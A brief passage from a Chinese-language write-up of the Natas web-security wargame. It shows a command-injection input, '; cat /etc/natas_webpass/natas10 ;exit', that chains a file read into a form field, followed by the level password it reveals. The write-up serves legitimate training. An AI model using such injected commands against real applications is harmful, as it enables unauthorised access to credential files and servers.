 那直接读取即可

```plaintext
; cat /etc/natas_webpass/natas10 ;exit
```

![img](img/image_20250100-220022.png)

```plaintext
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```

## Level 10 → Level 11
